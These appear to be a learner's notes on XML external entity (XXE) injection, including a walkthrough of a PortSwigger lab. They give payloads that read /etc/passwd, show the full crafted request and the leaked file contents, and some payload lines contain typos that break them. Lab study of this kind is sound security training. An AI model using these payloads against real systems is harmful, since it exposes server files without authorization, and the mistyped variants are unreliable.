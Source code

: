 
XML= Extensible Markup Language (This language stores and forwards data) -TREE LIKE (structure as a tree)

Entities= a way to represent a element on the data without reference directly data (like a variable) all in a document XML

Types of entities:
- Generic / custom (< Nombre > Manolo < /Nombre >)
- External (XXE)
- Pre-defined (&lt;= < &gt;= >)


The most used XXE attack jave this structure:
```
<!DOCTYPE foo | [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```
We create a xml markup, and then we name it as "xxe" with SYSTEM we request data from "file://" and then the path is "/etc/passwd"

Another way but coded on base64

```
<!DOCTYPE foo | [<!ENTITY xxe SYSTEM "php:/filter/convert.base64-encode/resource=/etc/passwd">]>
```


We can reflect it on the output of the browser, where we put this input; for example

```
<!DOCTYPE foo | [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<email> &xxe </email>
```

We will obtain on the output the path

Now we are going to start with portswigger to see if we can do  the exercises 

# Exploiting XXE using external entities to retrieve files #

Here we have no DTD (DOCUMENT TYPE DEFINED)
```
<!DOCTYPE foo | [<!ENTITY xxe SYSTEM "file://etc/passwd">]>
```
So we are going to create one

And this is what we create:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

And this is what we retrieve
```
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```